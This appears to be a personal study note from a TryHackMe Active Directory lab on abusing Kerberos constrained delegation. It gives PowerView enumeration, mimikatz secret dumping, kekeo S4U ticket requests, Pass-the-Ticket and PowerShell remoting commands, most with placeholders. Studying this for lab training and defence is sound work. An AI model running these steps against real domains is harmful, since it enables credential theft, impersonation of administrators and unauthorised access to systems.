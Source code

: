 # Kerberos delegation

> Note that "Kerberos delegation" and "Permission delegation" are 2 different terms. When "AD delegation" is mentioned, it usually refers to "Kerberos delegation".

## Resources

1. **Constrained delegation abuse**

{% embed url="https://docs.specterops.io/ghostpack/rubeus/constrained-delegation-abuse" %}

2. **PowerShell remoting**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5" %}

3. **PowerView**

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

4. Kerberos protocol extensions: Service for User (S4U)

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94" %}



## Important notice

The examples shown below uses the [kekeo](https://github.com/gentilkiwi/kekeo) tool, which is not maintained anymore and may not work as expected. However, the command examples are used to illustrate the basic workflow of the process in a lab environment ([TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room), along with explanations based on my understanding.

[Rubeus](https://github.com/GhostPack/Rubeus) is a tool that is heavily adapted from the _kekeo_ project, and provides similar functionalities. For all the commands shown in kekeo, I aim to provide the equivalent commands; in terms of functionality, in Rubeus (\*\*PENDING).

## Constrained vs Unconstrained delegation

1. **Unconstrained**&#x20;

* service accounts have no limits on the delegation
* this means that they are able to access any services



2. **Constrained**&#x20;

* service accounts can only be delegated to certain specified services
* this means that they can only access certain controlled services

## Constrained Delegation Exploitation steps

### Overview of attack

1. Enumerate the available delegations (PowerSploit `Get-NetUser` cmdlet)

* Delegation permissions can be seen from the `msDS-AllowedToDelegateTo` property



2. Retrieve the credentials of the service account (with constrained delegation permission)

* eg. mimikatz `lsadump::secrets` as a administrator, etc.



3. We can use the credentials obtained to request for a _Ticket Granting Ticket_ (**TGT**) as the service account user: **kekeo** `tgt::ask`&#x20;

* The newly created **TGT** can be used to request for a _Ticket Granting Service_ (**TGS**) on behalf of a specified user ([Service for User (S4U](https://app.gitbook.com/u/rGB3mnyBDeZY1pztQar9CHTNHtt2))): **kekeo** `tgs::s4u`&#x20;

> This is possible due to the Kerberos protocol extension: Service for User and Constrained Delegation protocol that allows an application to obtain a Kerberos service ticket on behalf of a user.&#x20;

This means that we can use the **TGT** for a service account to request for a valid **TGS** for _**ANY**_ user account of our choice, as long as the service account has the proper delegation permission for the service in question (service should be listed in the service account's `msDS-AllowedToDelegateTo` property).

Effectively, this means that once we have stolen the password for a service account with permission delegations to a particular service, we can create a **TGS** for ANY user of choice, and gain access to that service — leading to FULL privilege escalation.



4. Now that we have obtained the **TGS** for our desired user account and service, we can perform a Pass-the-Ticket attack using the mimikatz `kerberos::ptt` tool, and gain access to that particular service as the specified user.

### General example

#### Step 1

Given that we have breached a machine and gained administrative access, we can first try to enumerate available delegations. To achieve this, we can use the `Get-NetUser` cmdlets from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1):&#x20;

```powershell
PS C:\> Import-Module C:\dir\to\PowerSploit\PowerView.ps1
PS C:\> Get-NetUser -TrustedToAuth
```

#### Step 2

Next, we can use **mimikatz** to dump the secrets of the service account (given that there is a service currently running on the host as that particular service account):

```powershell
mimikatz # token::elevate
mimikatz # lsadump::secrets
```

#### Step 3

Now that we have the secret (password), we can use it to retrieve the _Ticket Granting Ticket_ (TGT) as the service account. Subsequently, we can generate the _Ticket Granting Service_ (TGS) for a particular user account and service that our identified service account (step 1) can delegate.

> Note that we will first retrieve the **TGT** as the service account, which will be used in the subsequent **TGS** request to retrieve the **TGS** for a user of our choice — administrator account, etc.

{% code overflow="wrap" %}
```powershell
kekeo # tgt::ask /user:<service_account> /domain:<domain> /password:<password>

C:\> rubeus.exe s4u ... 
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:<servicename>

C:\> rubeus.exe ... 
```
{% endcode %}

#### Step 4

Now that we have retrieved the _Ticket Granting Service_ (TGS) for our user of choice and desired service, we can use it to perform a _Pass-the-Ticket_ attack. This will allow us to authenticate to the service we have identified earlier.

{% code overflow="wrap" %}
```powershell
mimikatz # privilege debug
mimikatz # kerberos::ptt ...
mimikatz # exit
```
{% endcode %}

### Example: exploiting PowerShell remoting

According to the [TryHackMe exploiting AD](https://tryhackme.com/room/exploitingad) room, [PowerShell remoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5) uses the HTTP and WSMAN services as well. This means that we can use the TGT we have retrieved to create TGS for both HTTP and WSMAN, before performing a _Pass-the-Ticket_ attack, which will allow us to gain a remote session on a target machine.

{% code overflow="wrap" %}
```powershell
PS> Get-Netuser -TrustedToAuth
...
userprincipalname        : svcIIS@za.tryhackme.loc                          
name                     : IIS Server   
...
msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc, http/THMSERVER1}
...
```
{% endcode %}

> Note that we have to generate the TGS for both the HTTP and WSMAN services

{% code overflow="wrap" %}
```powershell
kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:http/<target>
Ticket in file 'TGS_http_xxxx'

kekeo # tgs::s4u /tgt:<path_to_TGT> /user:<username> /service:wsman/<target>
Ticket in file 'TGS_wsman_xxxx'
```
{% endcode %}

Perform _Pass-the-Ticket_ with the newly created TGS:

```powershell
mimikatz # kerberos::ptt TGS_http_xxxx
mimikatz # kerberos::ptt TGS_wsman_xxx

mimikatz # exit
```

> Refer to the "PowerShell remoting" resource in the Resources section above

Given that we generate a TGS (**kekeo**) as a user that is an administrator on our target machine, we will now have administrative access.

{% code overflow="wrap" %}
```powershell
PS C:\> New-PSSession -ComputerName <computer_name>
...

PS C:\> Enter-PSSession -ComputerName <computer_name>
[xxxx]: PS C:\Users\<username> whoami
user_xxx
```
{% endcode %}

